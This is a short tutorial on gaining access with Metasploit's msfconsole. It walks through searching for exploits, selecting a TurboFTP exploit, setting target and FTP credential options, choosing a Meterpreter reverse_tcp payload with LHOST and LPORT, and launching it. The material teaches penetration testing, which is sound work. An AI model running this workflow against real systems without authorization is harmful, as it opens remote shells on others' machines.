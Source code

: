 # Gaining access with Metasploit {-}

**Metasploit** is an open source framework used for penetration testing and exploit development. **Metasploit** gives a wide array of 
community contributed exploits and attack vectors. It's also used to automate your own exploits.

The basic workflow to exploit a target by using **MSFConsole** is:  
- Vulnerable service identification
- Search for a proper exploit fot that service
- Loading and configuration of that exploit
- Loading and configuration of the the desired payload
- Run of the exploit code and get access to the vulnerable machine

You can start **Metasploit** by typing:

```bash
msfconsole
```

## Search for a proper exploit {-}

```bash
msf6 > search <my search term>
```

another way to look for exploit is by using the show command.

```bash
msf6 > show exploits
```

It's not a good way for finding exploits as Metasploit have more than thousands of exploits.

## Use the desired exploit {-}

```bash
msf6 > use exploit/windows/ftp/turboftp_port
msf6 exploit(turboftp_port) >
```

At this point you can check the exploit info by typing:

```bash
msf6 exploit(turboftp_port) > info
```

or go back to the main msf console by typing

```bash
msf6 exploit(turboftp_port) > back
```
The command **show options** gives you the informations needed to use the exploit and the **set** command is needed to configure those options.

```bash
msf6 exploit(turboftp_port) > show options
msf6 exploit(turboftp_port) > set RHOST 10.10.10.5
msf6 exploit(turboftp_port) > set FTPUSER god
msf6 exploit(turboftp_port) > set FTPASS S@v3TH3Qu33n!
```

## Run the exploit {-}

To run an exploit, a **Payload** is needed. The payload is used to get:  

- a shell  
- a vnc or rdp connection  
- a **Meterpreter shell**  
- the execution of an attacker-supplied application  

To list the payloads of the specific choosen exploit, use the following command

```bash
msf6 exploit(turboftp_port) > show payloads
```

You can then choose the payload you want with the **set** command:

```bash
msf6 exploit(turboftp_port) > set payload windows/meterpreter/reverse_tcp
```

And again configure the payload and you will be good to go for launching the attack.

```bash
msf6 exploit(turboftp_port) > set LHOST 10.10.10.2
msf6 exploit(turboftp_port) > set LPORT 1234

msf6 exploit(turboftp_port) > exploit
```
